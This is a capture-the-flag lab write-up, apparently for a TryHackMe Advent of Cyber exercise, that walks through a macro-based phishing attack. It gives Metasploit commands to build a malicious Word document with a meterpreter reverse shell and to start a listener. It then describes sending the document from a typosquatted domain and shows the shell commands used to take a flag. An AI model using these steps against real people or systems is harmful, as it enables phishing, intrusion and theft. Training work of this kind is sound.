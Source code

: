 # Phishing Day 10: He had a brain full of macros, and had shells in his soul.

## Learning Objectives
- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro


1. Create the payload (malicious document) using Metasploit Framework
   - use your Kali attackbox IP as the local host IP address (LHOST)

```
msfconsole 
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST x.x.x.x
set LPORT port#
```


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-1.png" alt="day10-1"><br>





<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-2.png" alt="day10-2"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-3.png" alt="day10-3"><br>

	2. Listening for Incoming Connections (terminal 2)

  In a new terminal tab:

```
msfconsole

use multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST x.x.x.x

set LPORT port#

show options

exploit 
```

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-4.png" alt="day10-4"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-5.png" alt="day10-5"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-6.png" alt="day10-6"><br>


3. Email the Malicious Document (using typosquatting technique)

My email sender app was located at:
http://10.10.240.185/mail/


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-7.png" alt="day10-7"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-8.png" alt="day10-8"><br>

Attach the file:
 Navigate to: root > .msf4 > local > msf.docm > open

 
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-9.png" alt="day10-9"><br>
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-10.png" alt="day10-10"><br>

Address an email to the target user, marta@socmas.thm, convincing her to open the target.  The sender's email domain is a deliberate typo used to trick the receiver:

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-11.png" alt="day10-11"><br>


Marta responds to acknowledge the message and advised that she will check the document right away. 

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-12.png" alt="day10-12"><br>

## Exploitation

Marta's action triggers the execution of the payload, which initiates a reverse shell connection back to my attacker machine IP address to its listening port:


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-13.png" alt="day10-13"><br>

```
shell
whoami
cd c:/users/Administrator/Desktop
dir
type flag.txt
```

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-14.png" alt="day10-14"><br>
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-15.png" alt="day10-15"><br>
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-16.png" alt="day10-16"><br>

